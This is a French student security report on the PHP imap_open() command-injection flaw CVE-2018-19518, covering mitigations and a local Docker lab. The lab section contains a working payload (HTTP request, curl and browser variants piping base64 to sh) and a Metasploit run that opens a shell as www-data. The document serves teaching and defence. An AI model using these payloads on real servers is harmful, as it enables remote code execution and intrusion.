


Sécurité - CVE-2018-19518
=========================
#### Cyril Dussert, Emilien Mottet

## Service compormis
La faille de sécurité étudiée (CVE-2018-19518) concerne la fonction ```imap_open()``` dans PHP.

## Description de la vulnérabilité
Cette faille permet une exécution de code arbitraire sur le serveur exécutant le code PHP.

Cette faille existe car la fonction `imap_open` de PHP ne filtre pas correctement les noms d'hôte des boîtes mail avant de les passer aux protocoles __rsh__ et __ssh__. Ainsi, si _rsh_ et _ssh_ sont activés sur le serveur, et que la commande __rsh__ est un lien symbolique de la commande __ssh__ (comme c'est le cas sur les systèmes Debian et Ubuntu), un attaquant peut exploiter cette vulnérabilité en envoyant un nom de serveur IMAP malicieux, contenant l'argument _-oProxyCommand_ au serveur.

Le succès de l'exploitation de cette faille pourrait permettre à l'attaquant de passer outre la désactivation des fonctions _exec_ sur le serveur hébergeant l'application PHP.
Ainsi, l'attaquant peut exécuter les commandes shell de son choix sur le serveur hébergeant l'application PHP.

Pour passer les commandes bash à exécuter, nous allons les encoder en base 64, de manière à prévenir au maximum les sécurités qui auraient pu être mises en place côté serveur.
Cette conversion permet aussi de limiter l'effet de l'encodage des caractères spéciaux lorsqu'ils transitent en HTTP (avec `urlencode()` par exemple).

Voici la signature de la fonction `imap_open()` :
```php
resource imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] )
```
C'est bien entendu le premier paramètre, `$mailbox` qui nous intéresse ici, c'est sur ce paramètre, qui décrit le nom d'hôte de la boite mail IMAP, que nous allons passer le code malicieux.
Un exemple concret est disponible dans la section de l'expérimentation.

PHP a confirmé cette faille, et a proposé un patch logiciel. Cependant, ce patch désactive juste l'utilisation de rsh par défaut lors de l'utilisation de `imap_open()`. On cache seulement la faille, sans réellement la corriger.
Cependant, il semblerait que l'implémentation de ce protocole IMAP est géré par une librairie C sous-jacente, que PHP utilise (voir le [BugZilla](https://bugs.php.net/bug.php?id=77153)).
Malheureusement, cette librairie n'a plus l'air maintenue et les développeurs de PHP n'ont pas de contrôle dessus. La vérification des paramètres s'effectuant au sein de la librairie C, il n'est pas possible pour les développeurs de PHP d'effectuer une vérification des champs simple.

Un commit (*e5bfea64c81ae34816479bb05d17cdffe45adddb*) désactive par défault le login ssh et le login rsh et laisse la possibilité de l'activer via un paramètre non sécurisé (*imap.enable_insecure_rsh*). Cependant, si ce paramètre est activé, l'exécution de code sur le serveur est toujours possible. Au final, on peut dire que la faille n'est même pas corrigée, juste cachée par défaut.
Dans le cas où le développeur a besoin d'activer rsh, la faille réapparaît... Cela paraît dangereux...

## Cible de la faille
Comme décrit ci-dessus, les cibles concernées par cette faille sont les différentes version de php publiées avant ce commit *e5bfea64c81ae34816479bb05d17cdffe45adddb*

### Versions concernées
Les version maintenues de PHP étant vulnérables sont :
- PHP < 5.6.39
- PHP < 7.0.33
- PHP < 7.1.25
- PHP < 7.2.13
- PHP 7.3.0

Bien entendu, les versions non maintenues (ex : PHP 5.5.x) sont vulnérables.

## Exemple d'architecture
N'importe quelle application écrite en php utilisant `imap_open()`. En application concrète on peut imaginer un webmail écrit en php, ce qui est le cas le plus simple.

Cependant, des CMS connus utilisent aussi cette fonction dans leur fonctionnement. C'est le cas de Prestashop, dans ses versions les plus récentes, ainsi que SuiteCRM et e107.

Prenons le cas d'un site de vente en ligne utilisant Prestashop. C'est un système très simple à mettre en oeuvre, même pour des non-informaticiens. Cependant, la configuration de sécurité du serveur sous-jacent n'est pas à la portéé de tous, pas même d'un "simple" développeur PHP.
La seule sécurité présente sur Prestashop est qu'il faille accéder à l'interface d'adiministration afin de pouvoir paramétrer un serveur IMAP.

Les failles de sécurité étant courantes sur ce système (voir [CVE-2018-8824](https://nvd.nist.gov/vuln/detail/CVE-2018-8824) et plus généralement [ce lien](https://www.getastra.com/blog/911/prestashop-pirate-ces-vulnerabilites-peut-etre-la-raison/)), une simple faille d'injection SQL pourrait permettre de créer ou de s'approprier un compte administrateur et ainsi exploiter la faille qui nous intéresse.

## Préconisations de sécurité
Etant donné qu’il n’y à pas de workaround directement accessible pour palier cette faille, la
meilleure solution pour s’en protéger est de mettre à jour régulièrement les librairies présentes
sur le serveur. Peu de temps après la découverte de la faille, un patch correctif était disponible.

De plus nous conseillons de s'assurer des services exposés sur le serveur. Combien de sysadmins sont capable de définir rsh sur leur machine ?

Une fois de plus, s'abonner à des flux de nouvelles concernant la sécurité des systèmes utilisés au sein de l'infrastructure me paraît indispensable.

### Bonnes pratiques à mettre en oeuvre

Comme d'habitude, il est tout d'abord d'usage d'appliquer le principe du moindre privilège sur le serveur hébergeant l'application. Lorsque l'on exploite la faille, on accède au serveur en tant que l'utilisateur qu'utilise Apache pour s'exécuter. Ainsi, il paraît être une __très mauvaise idée__ que d'utiliser `root` pour exécuter Apache.
De plus, il convient de restreindre les droits accordés à www-data au strict minimum.

D'un côté plus logiciel, l'extension de PHP qui ajoute les fonctions imap à PHP (le paquet __php_imap__) n'est pas installé par défaut sur le système. Si vous n'utilisez pas ces fonctions, il convient de désinstaller ce paquet.

## Améliorer le développement

Sur une application qui utiliserait de telles fonctions, il me paraît essentiel d'effectuer une validation des noms d'hôtes des boîtes mail passées en paramètre. Par exemple, on peut interdire tout nom d'hôte contenant des arguments (tels que _-oProxyCommand_).

Ajouté à ça l'utilisation du flag _/norsh_ par défaut lors de l'appel à la méthode, on peut réduire drastiquement l'effet de cette faille.

## PSSI
Nous imaginons que nous sommes un éditeur logiciel qui propose un progiciel pour des sites de vente en ligne (prestashop like). Avec un module de création de tickets par e-mail. 

### Criticité de la faille et potentiel impact
La faille n'est pas disponible pour tout les utilisateurs. Seuls les administrateurs ayant les droits pour modifier le serveur mail de réception disposent d'un accès à la faille.
Seulement, si un utilisateur malicieux exploite une autre faille qui lui permet d'accédder à l'administration, il n'y a plus de sécurité.

Un __score de 7.5__ fut attribué à cette faille, ce qui prouve son caractère dangereux, sans toutefois qu'elle soit des plus critique.

Etant donné que l'on peut exécuter des commandes bash directement sur le serveur hébergeant le site web, on peut s'attendre à tout au niveau de l'impact. Cela peut aller de la suppression du répertoire `/var/www/html`, c'est à dire de tous les fichiers du site, jusqu'à l'intrusion d'un script malveillant sur le serveur, ou même la neutralisation du serveur.
Ainsi, pour une entreprise de vente en ligne, dont l'essentiel de l'activité repose sur notre plateforme e-commerce, l'exploitation de cette faille peut être __critique__ pour la vie de l'entreprise. Il faut absolument mitiger le plus possible son effet.

### Action préventive et curative

D'un point de vue préventif, nous devons vérifier le plus possible les paramètres passés, par l'utilisateur, à la fonction `imap_open()`. Par exemple, le fait de vérifier la validité d'un domaine, ainsi que l'absence d'argumets peut être efficace.
Aussi, il est prmordial de restreindre le plus possible les droits de l'utilisateur `www-data`, utilisé par Apache sur le serveur, de manière à limiter son rayon d'action.

Il va de soi que nous devons être compatible avec les versions de PHP maintenues, et les plus récentes (PHP 7.2 à l'heure actuelle), tout en étant prêt à migrer sur PHP 7.3 dès sa sortie.

Utiliser notre outil de création de tickets par e-mail ne doit pas forcer nos clients à désactiver la sécurité mise en place par l'équipe de PHP pour mitiger les effets de cette faille.
Le client doit donc être capable d'effectuer une connexion IMAP sans utiliser rsh. Nous pouvons ainsi rajouter le flag `/norsh` lors de tous les appels aux fonctions utilisant IMAP.

### Formation des utilisateurs à envisager

Comme dit plus haut, la formation des clients est primordiale, surtout pour configurer correctement le serveur sous-jacent, hébergeant Apache.

## Expérimentation 
### Gands on expérimentation 
Lancer l'image docker 
```console
docker-compose up -d --build --force-recreate
```

Vous trouverez à l'url http://localhost une application web. Cette application compte le nombre de mails présents sur votre boîte maîl.

Par exemple avec votre compte mail de grenoble-inp.org:
- imap : webmail.grenoble-inp.org
- user : prenom.nom@grenoble-inp.org
- password : xxx

Il est possible que cela ne fonctionne pas avec gmail (protection de google). Vous pouvez voir le résultat dans le dossier `docs/gmail.png`.

Maintenant nous allons réaliser l'exploitation. Comme expliqué il est possible d'injecter du code bash en paramètre de la fonction `imap_open()` dans le nom d'hôte.

La commande que nous allons executer sur le serveur est celle-ci ``` echo '1234567890'>/tmp/test0001```. 

Pour faciliter l'injection on encode le message du echo en base64.

Nous allons donc réaliser l'appel HTTP suivant :
```HTTP
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

Nous vous conseillons d'utiliser votre navigateur web, burp(outil vu lors du hands on pentest), ou curl (tout simplement !).

### Solution avec curl
  ```console
  $ curl 'http://localhost:80/' --data 'hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222'
  ```

### Solution avec firefox 
  - Ouvrir l'onglet Network de l'outil web developper (ctrl+shit+E)
  - Cliquer sur le bouton reload de l'outil web développeur, puis cliquer sur le bouton _submit_ de l'application web (peu importe le contenu des champs)
  - Vous allez voir apparaître une requête POST dans votre navigateur, faites un clic droit dessus et choisissez l'option edit and re-send (ou clic gauche, un bouton edit and ressend est présent juste à coté du code de retour) (voir screenshot).
  
 - Editer la requete en remplaçant le corps de la requête avec la chaîne suivante :
 ```
 hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
 ```
  
  

Ensuite nous allons vérifier que la commande a bien été executée sur le serveur web :
```console
$ docker-compose exec app bash
# ls -l /tmp
```


Il est possible de recommencer la manipulation avec un waf (__web application firewall__, pour notre application web). Il faut utiliser le fichier __docker-compose-waf.yml__.

```console
docker-compose -f docker-compose-waf.yml up -d --build --force-recreate
```

```console
docker-compose -f docker-compose-waf.yml exec app bash
```
On remarquera que le waf ne nous est d'aucune aide pour sécuriser l'application web dans le cadre de cette faille.


### Exploitation avec Metasploit
[Source](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/php_imap_open_rce.md)

```console
docker-compose -f docker-compose-msf.yml up -d --build --force-recreate
```
Ensuite, on exécute MSF :
```msf
msf5 > use exploit/linux/http/php_imap_open_rce 
msf5 exploit(linux/http/php_imap_open_rce) > set target 3
target => 3
msf5 exploit(linux/http/php_imap_open_rce) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(linux/http/php_imap_open_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(linux/http/php_imap_open_rce) > exploit
```

On remarque que l'on a ouvert un shell interactif sur le serveur web :

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Références
* [Documentation sur imap_open()](http://php.net/manual/fr/function.imap-open.php)
* [BugZilla PHP](https://bugs.php.net/bug.php?id=77153)
* Notre repo [github](https://github.com/ensimag-security/CVE-2018-19518)
